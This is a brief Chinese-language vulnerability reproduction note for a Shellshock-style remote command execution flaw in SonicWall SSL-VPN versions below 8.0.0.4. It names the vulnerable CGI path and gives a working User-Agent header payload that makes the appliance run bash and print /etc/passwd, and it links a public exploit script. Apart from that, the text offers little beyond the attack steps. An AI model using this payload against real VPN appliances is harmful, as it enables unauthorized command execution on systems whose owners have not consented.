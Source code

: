 # 0x00 软件介绍
SonicWall：一款VPN解决方案，包含WEB界面、VPN功能等

# 0x01 复现环境
复现环境：公司实验环境  
复现版本：SonicWall  
环境搭建：  
略

# 0x02 利用条件
无

# 0x03 影响版本
SonicWall SSL-VPN < 8.0.0.4

# 0x04 漏洞复现
攻击环境：kali x64  
访问目标，burp抓包，将访问地址修改为
```
/cgi-bin/jarrewrite.sh
```
将User-Agent修改为
```
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
```
如下图
![image](./0.png)

# 0x05 批量脚本
无

# 0x06 参考链接
https://github.com/darrenmartyn/VisualDoor/blob/main/visualdoor.py
